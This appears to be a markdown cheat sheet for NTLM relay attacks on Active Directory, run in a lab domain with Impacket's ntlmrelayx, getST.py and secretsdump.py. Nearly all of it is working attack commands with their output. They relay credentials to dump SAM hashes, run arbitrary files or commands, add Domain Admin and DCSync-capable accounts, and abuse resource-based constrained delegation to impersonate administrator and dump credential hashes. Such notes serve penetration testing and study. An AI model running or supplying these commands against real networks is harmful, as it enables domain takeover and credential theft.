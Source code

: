 ## ntlmrelayx

### Relay to Workstations other Clients

#### dump SAM

`ntlmrelayx.py -tf targets.txt -smb2support`

#### interactive session

`ntlmrelayx.py -tf targets.txt -smb2support -i`

#### Execute a file

`ntlmrelayx.py -tf targets.txt -smb2support -e malware.exe`

#### Execute a command

`ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"`

### Relay to AD with LDAP

#### Basic command

This command will:

- dump LDAP information
- if credentials allow it
  - add a Domain Admin account (user is added to Enterprise Admins group)
  - setup a 'domain user' account with ACL rights to preform a DCsync.

`ntlmrelayx.py -6 -t ldaps://10.11.12.1 -wh wdap.lab.justin-p.me`

Combine with secretsdump.py for fun.

```bash
secretsdump.py UDlGmXMPsh:'e=yZF&~+.RUJ|dh'@lab.justin-p.me -just-dc
Impacket v0.9.21.dev1+20200209.151450.b938f422 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:a:a:::
Guest:501:a:a:::
krbtgt:502:a:a:::
```

#### Create a computer account in AD

Any user can create up to 10 computer accounts. Using the command below we can use relayed credentials to create a computer account. By default it will create a random computer account in the default computer OU.

`ntlmrelayx.py -6 -t ldaps://10.11.12.1 -wh wdap.lab.justin-p.me --add-computer [OPTIONAL COMPUTERNAME]`

#### Abuse msDS-AllowedToActOnBehalfOfOtherIdentity

Works by default and does not require any AD credentials to perform!

Computer accounts can modify some of their own properties via LDAP, which includes the msDS-AllowedToActOnBehalfOfOtherIdentity attribute. This attribute controls which users can authenticate to the computer as almost any account in AD via impersonation using Kerberos. This concept is called Resource-Based constrained delegation.

We can abuse this when we relay a computer account credential by modifying this attribute to give ourselves rights impersonate users on that computer.

The command below will add a new computer account to the domain, it will then add that computer account to the msDS-AllowedToActOnBehalfOfOtherIdentity attribute of the relayed computer account.

`ntlmrelayx.py -6 -t ldaps://10.11.12.1 -wh wdap.lab.justin-p.me --delegate-access`

Combine with getST.py and secretsdump.py for complete control over workstation.

```bash
getST.py -spn cifs/LAB-PC01.lab.justin-p.me lab.justin-p.me/test-machine\$ -impersonate administrator
Impacket v0.9.21.dev1+20200209.151450.b938f422 - Copyright 2020 SecureAuth Corporation

Password:
[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache  
```

```bash
KRB5CCNAME=administrator.ccache 
secretsdump.py -k -no-pass LAB-PC01.lab.justin-p.me 
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xb5f4662f815fdf939e16188273d583a2
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:
[*] Cleaning up...
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```
